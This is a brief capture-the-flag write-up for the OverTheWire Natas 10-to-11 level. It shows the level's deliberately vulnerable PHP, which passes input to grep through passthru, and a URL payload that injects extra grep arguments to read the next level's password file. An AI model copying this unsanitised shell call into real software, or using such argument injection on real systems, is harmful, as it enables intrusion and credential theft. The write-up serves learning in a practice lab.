 # Natas 10 -> 11

```
http://natas10.natas.labs.overthewire.org
```

```
Username: natas10
```

Same as before, except this time some characters are *illegal*.  

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

This time we can't use `;`, `|` or `&`.  
Let's see what happens if we send something like this:  

```
?needle=-v a
```

Alright, we get words without "a", that means we can still exploit this.  
Let's try this:  
```
?needle=-v%20a%20/etc/natas_webpass/natas11%20
```

\o/



* php
* preg_match
* grep
